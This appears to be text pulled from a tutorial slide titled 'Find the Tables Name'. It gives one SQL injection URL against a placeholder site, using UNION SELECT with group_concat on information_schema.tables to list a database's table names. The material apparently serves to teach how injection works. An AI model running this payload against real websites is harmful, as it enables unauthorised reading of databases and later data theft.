

# Find the Tables Name
http://www.examplesite.com/index.php?id=-5 union select 1,2,group_concat(table_name),4,5,6,7,8,9,10 from information_schema.tables where table_schema=database()—